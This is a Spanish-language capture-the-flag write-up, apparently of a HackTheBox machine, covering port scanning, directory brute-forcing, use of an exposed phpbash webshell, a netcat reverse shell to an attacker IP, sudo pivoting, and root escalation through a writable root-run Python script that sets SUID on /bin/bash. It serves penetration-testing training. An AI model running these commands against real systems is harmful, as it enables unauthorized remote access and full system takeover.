Se comienza con una fase de enumeración de puertos sobre la máquina objetivo, con el fin de identificar qué puertos se encuentran abiertos.

``sudo nmap 10.129.27.201 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



Se identifica el puerto 80/tcp abierto. Aunque este puerto suele asociarse al servicio HTTP por convención (_well-known ports_), no puede asumirse su ejecución sin una enumeración más detallada. Por ello, se realiza un segundo escaneo con scripts de enumeración y detección de versiones, con el objetivo de identificar el servicio, su versión y recopilar información adicional que permita evaluar posibles vectores de ataque.

``nmap 10.129.27.201 -sCV -p80 -oN target``



Se inspecciona el contenido del sitio web a nivel de navegador, sin identificar inicialmente ningún endpoint relevante.



Sin embargo, en el contenido visible se observa una referencia a ``phpbash``:

``phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server.``

Esta pista sugiere la posible existencia de una webshell basada en PHP. El objetivo en este punto es identificar su endpoint para su posterior explotación.

Dado lo anterior, se procede a realizar una enumeración de directorios mediante fuerza bruta basada en diccionario con ``feroxbuster``:

``feroxbuster -u http://10.129.27.201 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 80 -x txt,sh,php -C 400,404,500,503 -o 80 -r``



El resultado del escaneo revela un directorio de especial interés: ``/dev``.

Al acceder a dicho directorio desde el navegador, se observa un directory listing que expone los siguientes archivos:

- `phpbash.min.php`
- `phpbash.php`



Al acceder a `phpbash.php`, se obtiene una web shell que permite la ejecución remota de comandos en el sistema víctima:



Se verifica su funcionamiento ejecutando `id`, confirmando ejecución remota de comandos.

A partir de este punto, se procede a establecer una reverse shell.
- Se levanta un listener en la máquina atacante: ``nc -nvlp 443``
- Se ejecuta una reverse shell desde la web shell: ``busybox nc 10.10.15.143 443 -e /bin/bash``
-  Se recibe la conexión entrante en el listener:



Se ha obtenido acceso al sistema como el usuario ``www-data``.

Se realiza un tratamiento de la TTY para estabilizar la shell.

La flag de usuario se encuentra en el directorio personal del usuario ``arrexel``:



# PRIVESC

Se revisan los privilegios de sudo del usuario actual:

``sudo -l``



Se observa que el usuario actual, ``www-data``, puede ejecutar cualquier comando como el usuario ``scriptmanager`` sin necesidad de contraseña:

``scriptmanager : scriptmanager) NOPASSWD: ALL``

En este contexto, es posible escalar a dicho usuario ejecutando una shell con privilegios delegados:

``sudo -u scriptmanager /bin/bash``



Se ha pivotado  correctamente al usuario ``scriptmanager``.

Durante la enumeración del sistema de archivos, se identifica un directorio interesante en la raíz del sistema: 



Se observa el directorio ``/scripts``, propiedad del usuario ``scriptmanager``.



El directorio contiene un script, `test.py`, que escribe sobre `test.txt`, pero este último pertenece a `root` y el usuario ``scriptmanager`` no tiene permisos de escritura, lo que en condiciones normales debería impedir su modificación directa.

Dado que el archivo `test.py` sí es modificable por `scriptmanager`, se procede a alterar su contenido para comprobar si es ejecutado automáticamente por el sistema con privilegios elevados.



Posteriormente, se verifica el contenido de ``test.txt``:

``cat test.txt``



Esto confirma que ``test.py`` se está ejecutando con privilegios de ``root``.

Aprovechando esta situación, se manipula el script ``test.py`` para otorgar el bit SUID a la ``/bin/bash``:



Se verifica el cambio de permisos en ``/bin/bash``:



``/bin/bash`` ahora cuenta con el bit SUID habilitado, por lo que se procede a ejecutar una shell con privilegios elevados:

``bash -p``



Se ha obtenido acceso como usuario ``root``.

La flag de root se encuentra en el directorio personal del usuario ``root``.



